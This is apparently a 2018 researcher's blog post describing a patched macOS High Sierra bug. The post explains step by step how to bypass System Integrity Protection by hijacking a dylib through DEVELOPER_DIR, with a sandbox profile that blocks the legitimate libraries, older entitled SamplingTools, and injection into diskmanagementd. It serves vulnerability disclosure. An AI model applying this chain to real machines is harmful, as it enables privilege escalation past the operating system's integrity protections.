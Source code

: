```yaml
---
layout:	post
title:	"Bypass macOS Rootless by Sandboxing"
date:	2018-06-18
image: /img/elevated.png
show_excerpt: true
---
```


This bug has been fixed in Mojave Beta, but still present in latest High Sierra (10.13.5). It's a logic bug that an entitled binary tries to load an insecure external library controllable by environment variable. To exploit it we need to abuse sandbox, which is interesting that sometimes a mitigation could be turned to an exploit.

CoreSymbolication(`/System/Library/PrivateFrameworks/CoreSymbolication.framework`) has some private api for symbolication. When demangling swift application symbols, it tries to load external library in following order:

* /System/Library/PrivateFrameworks/Swift/libswiftDemangle.dylib
* /Developer/Toolchains/XcodeDefault.xctoolchain/usr/lib/libswiftDemangle.dylib
* /usr/lib/libswiftDemangle.dylib
* `${xcselect_get_developer_dir_path()}`/Toolchains/XcodeDefault.xctoolchain/usr/lib/libswiftDemangle.dylib

<!-- more -->

![](/img/AcYsN5lN3MwURaTyzmZYlg.png)

The function `xcselect_get_developer_dir_path` will return environ variable `DEVELOPER_DIR` if it's set. Absolutely controllable.

![](/img/5y2YMlFx8NPfDGRv3PXszg.png)

Actually the first `libswiftDemangle.dylib` candidate does exist. Will it reach the vulnerable branch? I'll talk about it later.

Apple has built-in `com.apple.SamplingTools` in:

```
/usr/bin/{filtercalltree,heap32,stringdups32,leaks32,heap,atos,vmmap32,sample,malloc_history32,symbols,vmmap,leaks,stringdups,malloc_history}
```

And they are entitled:

```shell
➜ ~ jtool --ent `which symbols`  
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "<http://www.apple.com/DTDs/PropertyList-1.0.dtd>">  
<plist version="1.0">  
<dict>  
 <key>com.apple.private.kernel.get-kext-info</key>  
 <true/>  
 <key>com.apple.system-task-ports</key>  
 <true/>  
</dict>  
</plist>
```

With this entitlement, SamplingTools can attach to SIP protected process with `task_for_pid`, even without root privilege.

```
$ vmmap Finder | head -n 8  
Process: Finder [42164]  
Path: /System/Library/CoreServices/Finder.app/Contents/MacOS/Finder  
Load Address: 0x10515f000  
Identifier: com.apple.finder  
Version: 10.13.5 (10.13.5)  
Build Info: Finder_FE-1054005004000000~3  
Code Type: X86–64  
Parent Process: ??? [1]
```

LLDB fails even it's root:

```
$ sudo lldb -n Finder  
Password:  
(lldb) process attach --name "Finder"  
error: attach failed: cannot attach to process due to System Integrity Protection
```

So this seems to be like a meta entitlement. With it you can just inject to other entitled process and gain arbitrary entitlement.

Let's just start an application compiled with swift, then run `symbols [pid] -printDemangling` and it will call CoreSymbolication!demangle, which has potential ability to load insecure code.

But there are two problems. First, the last branch looks impossible to be reached because `/System/Library/PrivateFrameworks/Swift/libswiftDemangle.dylib` exists.

Actually we can just block them with a sandbox. **Yeah, use the security facility to trigger something insecure.**

```lisp
(version 1)
(allow default)
(deny file-read*  
  (literal "/System/Library/PrivateFrameworks/Swift/libswiftDemangle.dylib")  
  (literal "/Developer/Toolchains/XcodeDefault.xctoolchain/usr/lib/libswiftDemangle.dylib")  
  (literal "/usr/lib/libswiftDemangle.dylib")  
)
```

Then, spawn a child process with `symbols [pid] -printDemangling` to trigger dylib hijack.

Now we have a second problem. It crashes.

```
System Integrity Protection: enabled
Crashed Thread: 0 Dispatch queue: com.apple.main-threadException Type: EXC_BAD_ACCESS (Code Signature Invalid)  
Exception Codes: 0x0000000000000032, 0x000000010d745000  
Exception Note: EXC_CORPSE_NOTIFY
Termination Reason: Namespace CODESIGNING, Code 0x2
kernel messages:
External Modification Warnings:  
Process used task_for_pid().
VM Regions Near 0x10d745000:  
 MALLOC_LARGE 000000010d70a000-000000010d745000 [ 236K] rw-/rwx SM=PRV   
--> mapped file 000000010d745000-000000010d746000 [ 4K] r-x/r-x SM=PRV Object_id=2929ab85  
 mapped file 000000010d748000-000000010d762000 [ 104K] r--/r-- SM=ALI Object_id=2af85085Application Specific Information:  
dyld: in dlopen()  
/var/folders/4d/1_vz_55x0mn_w1cyjwr9w42c0000gn/T/tmp.0b5SeUjh/Toolchains/XcodeDefault.xctoolchain/usr/lib/libswiftDemangle.dylib
12 libdyld.dylib 0x00007fff66c9fd86 dlopen + 86  
13 com.apple.CoreSymbolication 0x00007fff52d15332 invocation function for block in call_external_demangle(char const*) + 348  
14 libdispatch.dylib 0x00007fff66c64e08 _dispatch_client_callout + 8  
15 libdispatch.dylib 0x00007fff66c64dbb dispatch_once_f + 41  
16 com.apple.CoreSymbolication 0x00007fff52cb880f demangle + 298  
17 com.apple.CoreSymbolication 0x00007fff52cb85e3 TRawSymbol<Pointer64>::name() + 75  
18 com.apple.CoreSymbolication 0x00007fff52cbd88e CSSymbolGetName + 166
```

com.apple.SamplingTools in latest macOS are code signed with [Library Validation](https://developer.apple.com/library/archive/documentation/Security/Conceptual/CodeSigningGuide/Procedures/Procedures.html) flag, so loading unsigned dylib is prohibited.

```
➜ ~ codesign -dvvv `which symbols`  
Executable=/usr/bin/symbols  
Identifier=com.apple.SamplingTools  
Format=Mach-O thin (x86_64)  
CodeDirectory v=20100 size=1384 flags=**0x2000(library-validation) **hashes=36+5 location=embedded
```

I just happened to have an El Capitan virtual machine and I looked into it. The previous SamplingTools distribution has valid code signature, but no library validation flag. So just copy to High Sierra and it works.

Although we can now invoke `task_for_pid` on any restricted process, it still requires the same euid, which means we need a local root privilege escalation exploit as part of the chain.

Now inject into `diskmanagementd` and you'll have the `com.apple.rootless.install.heritable` entitlement, which means the privilege to modify `/System` and spawn a shell without rootless restriction.

The bug has been fixed in Mojave Beta, no more external library, finally.

![](/img/vAP5r0UBzDCQcnPl8WjDqA.png)

#### Update 2019–05–14

This bug be exploited for kernel privilege escalation. Please refer to the slides for my HITB Ams 2019 talk:

<https://conference.hitb.org/hitbsecconf2019ams/materials/D2T2%20-%20ModJack%20-%20Hijacking%20the%20MacOS%20Kernel%20-%20Zhi%20Zhou.pdf>

And here's the exploit to load an unsigned kernel extension on macOS 10.13:

[**ChiChou/sploits**](https://github.com/ChiChou/sploits/tree/master/ModJack)